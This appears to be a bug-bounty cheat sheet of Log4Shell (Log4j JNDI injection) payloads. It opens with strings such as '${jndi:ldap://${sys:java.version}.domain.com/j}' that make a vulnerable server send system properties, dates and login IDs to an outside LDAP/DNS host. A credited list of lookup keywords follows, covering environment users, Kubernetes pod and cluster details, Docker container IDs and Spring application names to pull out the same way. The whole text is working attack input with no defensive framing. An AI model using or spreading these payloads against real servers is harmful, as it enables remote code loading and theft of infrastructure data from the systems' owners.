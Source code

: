 # System Properties Lookup
${jndi:ldap://${sys:logPath}.domain.com/j}
${jndi:ldap://${sys:java.version}.domain.com/j}
${jndi:ldap://${sys:java.vendor}.domain.com/j}
 
# Structured Data Lookup
${jndi:ldap://${sys:logPath}.domain.com/j}
 
# Date Lookup
${jndi:ldap://${date:MM-dd-yyyy}.domain.com/j}
 
# Context Map Lookup
${jndi:ldap://${ctx:loginId}.domain.com/j}
 
# Some Great Keywords to pay with: 
Credit: https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
${k8s:namespaceId}
${k8s:namespaceName}
${k8s:podId}
${k8s:podIp}
${k8s:podName}
${k8s:imageId}
${k8s:imageName}
${log4j:configLocation}
${log4j:configParentLocation}
${spring:spring.application.name}
${main:myString}
${main:0}
${main:1}
${main:2}
${main:3}
${main:4}
${main:bar}